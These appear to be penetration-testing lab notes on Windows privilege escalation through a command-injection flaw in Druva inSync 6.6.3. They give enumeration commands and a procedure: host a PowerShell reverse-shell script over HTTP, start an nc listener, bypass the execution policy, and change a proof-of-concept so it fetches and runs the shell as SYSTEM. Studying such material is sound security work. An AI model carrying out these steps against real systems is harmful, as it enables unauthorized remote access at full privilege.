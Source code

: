 ### Enumeration Commands
```powershell
wmic product get name
netstat -ano | findstr 6064
get-process -Id 3324
get-service | ? {$_.DisplayName -like 'Druva*'}
```

### Exploitation (Setup) Commands
```powershell
python3 -m http.server 8080
nc -lvnp 9443
Set-ExecutionPolicy Bypass -Scope Process
```

### Verification Commands
```powershell
whoami
hostname
```


**Key Concepts:**

- **Third-Party Vulnerabilities:**
    - User-installed software can introduce security flaws.
    - Services running as SYSTEM are high-value targets.
- **Druva inSync Vulnerability:**
    - Specific versions (e.g., 6.6.3) are vulnerable to command injection via RPC.
    - Allows arbitrary command execution as NT AUTHORITY\SYSTEM.

**Approach, Commands, Tools, and Techniques:**

1. **Enumeration:**
    - `wmic product get name` (Identify installed applications).
    - `netstat -ano | findstr 6064` (Verify listening port).
    - `get-process -Id 3324` (Map PID to process name).
    - `get-service | ? {$_.DisplayName -like 'Druva*'}` (Confirm service status).
2. **Exploitation:**
    - Modify the provided PowerShell PoC script:
        - Change the `$cmd` variable to execute a reverse shell.
        - Download `Invoke-PowerShellTcp.ps1` (or similar).
        - Host `Invoke-PowerShellTcp.ps1` using `python3 -m http.server`.
        - Modify the PoC to download and execute `Invoke-PowerShellTcp.ps1`.
    - Start a Netcat listener on the attacker machine: `nc -lvnp 9443`.
    - Bypass PowerShell execution policy: `Set-ExecutionPolicy Bypass -Scope Process`.
    - Execute the modified PowerShell PoC script.
3. **Verification:**
    - `whoami` (Verify SYSTEM privileges).
    - `hostname` (Verify target host).

**Commands:**

- `wmic product get name`
- `netstat -ano | findstr 6064`
- `get-process -Id <PID>`
- `get-service | ? {$_.DisplayName -like 'Druva*'}`
- `python3 -m http.server <port>`
- `nc -lvnp <port>`
- `Set-ExecutionPolicy Bypass -Scope Process`
- `whoami`
- `hostname`
